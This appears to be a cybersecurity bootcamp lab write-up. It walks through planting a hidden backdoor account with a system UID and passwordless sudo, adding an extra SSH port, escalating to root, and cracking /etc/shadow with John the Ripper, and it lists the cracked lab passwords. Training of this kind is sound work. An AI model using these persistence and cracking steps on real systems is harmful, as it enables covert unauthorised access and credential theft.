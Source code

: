 ## Advanced Bash - Owning the System



**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd `

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 28 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 28 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `usermod -aG sudo sysd`

6. Test that `sudo` access works without your password:

    ```
    sudo -l
    sudo -lU sysd
    sudo -v
    sudo adduser frank
    sudo deluser frank
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    ! [sshd_config](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/06.%20Bash%20Scripting%20and%20Programming/sshd_config.png)
    ```

**Step 3: Testing The Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    - john /etc/shadow

    • sysadmin:passw0rd:18387:0:99999:7:::
    • student:Goodluck!:18387:0:99999:7:::
    • mitnik:trustno1:18387:0:99999:7:::
    • babbage:freedom:18387:0:99999:7:::
    • lovelace:dragon:18387:0:99999:7:::
    • stallman:computer:18387:0:99999:7:::
    • turing:lakers:18387:0:99999:7:::
    • sysd:password:18841:0:99999:7:::
---
